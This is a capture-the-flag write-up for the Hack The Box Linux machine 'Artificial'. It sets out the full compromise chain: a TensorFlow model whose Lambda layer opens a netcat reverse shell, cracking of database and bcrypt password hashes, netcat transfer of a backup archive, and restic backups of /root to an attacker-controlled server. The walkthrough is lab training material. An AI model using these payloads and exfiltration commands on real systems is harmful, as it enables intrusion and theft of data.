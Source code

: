 # HTB Machine: Artificial
Machine Type: Linux | Solved by: Akshat Nigam | Category:Web Exploitation, Docker Misconfiguration, Privilege Escalation | Difficulty: Easy | Attack Surface:HTTP (port 80), TensorFlow via file upload
## Initial Enumeration

### Nmap Scan

```bash
nmap -sV -sC 10.10.11.74 -v
```

**Open Ports:**

* 22/tcp: OpenSSH 8.2p1
* 80/tcp: HTTP (nginx 1.18.0)

## Web Exploitation - TensorFlow RCE

1. Register a user and access the upload page.
2. Gather `requirements.txt` and `Dockerfile` for environment context:

### Dockerfile

```dockerfile
FROM python:3.8-slim
WORKDIR /code
RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/.../tensorflow_cpu-2.13.1...whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1...whl
ENTRYPOINT ["/bin/bash"]
```
Build the Docker image using 

```bash
docker build -t <image name> .
```
Start the container 

```bash
docker run -it -v $(pwd):/app <image name> 
```

### Exploit Code

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

3. Upload model and trigger execution by clicking **"View Predictions"**.

## Getting User

### SQL Enumeration

```bash
sqlite3 users.db
sqlite> SELECT * FROM user;
```

Extracted user hashes. Example:

```plaintext
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
```

### Cracking Hash with John

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```

Cracked Password: `mattp005numbertwo`

### SSH Access

```bash
ssh gael@10.10.11.74
```

## Privilege Escalation - Root

### Backup Discovery

```bash
cd /var/backups
ls -la
```

Found: `backrest_backup.tar.gz`

Extracted and found:

## Netcat Transfer 

```bash
nc -nv <your ip> <port> < backrest_backup.tar.gz
```
On your Attacking machine open the listening 

```bash
nc -nlvp <port> > backrest_backup.tar.gz
```
Unzip it and read 

```bash
cat .config/backrest/config.json
```

```json
"passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
```

### Decode and Crack Bcrypt

```bash
echo '<base64>' | base64 -d > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

Cracked Password: `!@#$%^`

### Internal Port Forwarding

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

## Using Restic (GTFOBins)
Go to the http://localhost:9898 enter the username and password you gained above. 
```bash
Username: backrest_root
Password: !@#$%^
```

### Start Local Restic Server

Create your own Repo name it according to your use. 

```bash
Repository Url: /opt
Password: <Depends on you>
```
On your system, install Rest-server, using go

```bash
./rest-server --path /tmp/restic-data --listen :12345 --no-auth
```

### On Target - Backup `/root`

Now after creating the repo, in the Run command execute:

```bash
restic -r rest:http://<your-ip>:12345/myrepo init
restic -r rest:http://<your-ip>:12345/myrepo backup /root
```

### On Attacker - Restore Snapshot

```bash
restic -r /tmp/restic-data/myrepo snapshots
restic -r /tmp/restic-data/myrepo restore <snapshot-id> --target ./restore
```

Root flag found:

```bash
cat restore/root/root.txt
```

### SSH as Root (Optional)

```bash
ssh -i ./id_rsa root@Artificial.htb
```

---

## Summary

* **User:** Achieved via TensorFlow model RCE and hash cracking.
* **Root:** Extracted from backup archive, cracked bcrypt password, used port forwarding and restic GTFOBin to restore `/root`.

> Rooted 🎉
